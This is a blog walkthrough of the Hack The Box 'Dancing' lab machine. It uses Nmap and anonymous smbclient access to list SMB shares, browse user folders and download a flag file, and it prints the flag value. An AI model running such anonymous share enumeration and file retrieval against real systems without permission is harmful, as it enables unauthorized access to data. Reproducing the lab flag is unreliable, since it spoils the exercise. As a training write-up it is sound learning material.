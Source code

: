 ```yaml
---
layout: post
title: "Dancing – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
The Dancing machine from HTB Starting Point demonstrates enumeration and exploitation of SMB shares using anonymous access. We'll use **Nmap** for scanning and **smbclient** for accessing shares without credentials.

---

## 🔍 Tools Used
- **Nmap** – Network scanning and service enumeration
- **smbclient** – SMB share access and file retrieval

---

## ✅ Steps to Exploit

### 1. Reconnaissance with Nmap
First, scan the target for open ports and services:
```bash
nmap -sC -sV 10.129.207.91
```
Result:

![Nmap Scan Result](/assets/img/htb/dancing/nmapdancing.jpg)

Key Findings:
- Port 135 → Microsoft RPC
- Port 139 → NetBIOS
- Port 445 → SMB (microsoft-ds)

### 2. Enumerate SMB Shares
List available shares anonymously:
```bash
smbclient -L \\\\10.129.207.91\\ -N
```
**-L** : To list available shares
**-N** : No password prompt (useful for anonymous/guest access)
Result: Found a share named WorkShares

![List of SMB Shares](/assets/img/htb/dancing/smbshares.jpg)

### 3. Access the WorkShares Share
Connect without a password:
```bash
smbclient \\\\10.129.207.91\\WorkShares -N
```
List the folders:
```bash
ls
```
We will see:
```bash
Amy.J
James.P
```

### 4. Browse Directories and Find the Flag
Navigate into Amy.J:
```bash
cd Amy.J
ls
```
File found: worknotes.txt (not needed for flag, but useful for context)
Go back and enter James.P:
```bash
cd ..
cd James.P
ls
```
Here we find flag.txt.
![Get Flag File](/assets/img/htb/dancing/getflag.jpg)


### 5. Download and Read the Flag
Download the flag file:
```bash
get flag.txt
```
Read it locally:
```bash
cat flag.txt
```
Flag:
```bash
5f61c10dffbc77a704d76016a22f1664
```
![Read Flag File](/assets/img/htb/dancing/readflag.jpg)

### Alternative Method (Optional)
You could also enumerate SMB shares using enum4linux or exploit with Metasploit:
```bash
use auxiliary/scanner/smb/smb_login
```

### Key Takeaways
- SMB shares are often misconfigured for anonymous access.
- Always start with Nmap, then enumerate with smbclient.
- Use Metasploit or enum4linux for automation in real-world scenarios.
